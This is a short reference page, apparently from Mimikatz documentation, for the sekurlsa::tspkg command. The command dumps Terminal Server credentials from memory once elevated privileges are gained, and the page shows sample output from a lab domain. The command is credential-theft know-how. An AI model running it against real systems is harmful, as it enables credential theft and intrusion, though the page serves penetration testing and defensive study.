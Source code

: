 # tspkg

It lists TsPkg credentials. This credentials provider is used for Terminal Server Authentication.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::tspkg

Authentication Id : 0 ; 3151880 (00000000:00301808)
Session           : RemoteInteractive from 2
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 13/10/2021 20:58:08
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
        tspkg :
```
